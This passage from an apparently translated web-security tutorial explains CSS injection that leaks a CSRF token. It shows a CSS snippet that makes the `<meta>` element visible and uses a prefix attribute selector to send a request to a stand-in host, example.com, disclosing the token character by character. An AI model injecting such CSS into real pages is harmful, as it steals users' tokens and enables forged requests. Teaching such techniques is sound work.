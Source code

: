 ![style](pics/17-02.png)

But this is not enough. You will notice that the request is still not sent. This is because `<meta>` is under `<head>`, and `<head>` has the default `display:none` property. Therefore, we also need to set `<head>` specifically to make `<meta>` "visible":

``` css
head, meta {
  display: block;  
}

meta[name="csrf-token"][content^="a"] {
  background: url(https://example.com?q=a);
}
```

By writing it like this, the browser will send the request. However, nothing will be displayed on the screen because, after all, `content` is an attribute, not an HTML text node, so it will not be displayed on the screen. But the `meta` element itself is actually visible, which is why the request is sent:
